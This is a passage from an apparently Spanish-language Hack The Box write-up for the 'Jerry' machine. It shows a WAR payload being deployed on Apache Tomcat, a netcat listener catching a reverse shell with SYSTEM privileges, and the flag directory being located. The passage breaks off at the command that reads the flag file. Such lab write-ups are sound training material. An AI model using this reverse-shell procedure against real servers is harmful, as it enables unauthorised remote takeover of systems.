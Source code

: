 ## Ejecutando la Reverse Shell con payload WAR

- Solo es necesario subir el file y dar click en `deploy`

- Aparecerá en la lista y solo es necesario ejecutarla...

- **Antes dejar escuchando al `netcat`**

- Dar click y recibir la reverse shell:

```sh
┌──(fz3r0㉿Fz3r0)-[~/Documents/01_-_Fz3r0_HTB/Jerry]
└─$ rlwrap nc -nlvp 666
listening on [any] 666 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system    <<<<------------- PWN!!!

C:\apache-tomcat-7.0.88>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : htb
   IPv6 Address. . . . . . . . . . . : dead:beef::210
   IPv6 Address. . . . . . . . . . . : dead:beef::6c16:7b51:7e64:9406
   Link-local IPv6 Address . . . . . : fe80::6c16:7b51:7e64:9406%11
   IPv4 Address. . . . . . . . . . . : 10.10.10.95
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:17d8%11
                                       10.10.10.2

Tunnel adapter isatap.{E6565A26-EF2E-43A5-A579-B0F25E7B1DC8}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : htb

C:\apache-tomcat-7.0.88>
```

## Localización de las Flags

- Ambas están en el mismo archivo en un lugar típico... `C:\Users\Administrator\Desktop\flags`

```cmd
C:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 0834-6C04

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  06:09 AM    <DIR>          .
06/19/2018  06:09 AM    <DIR>          ..
06/19/2018  06:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)   2,364,657,664 bytes free

C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
```
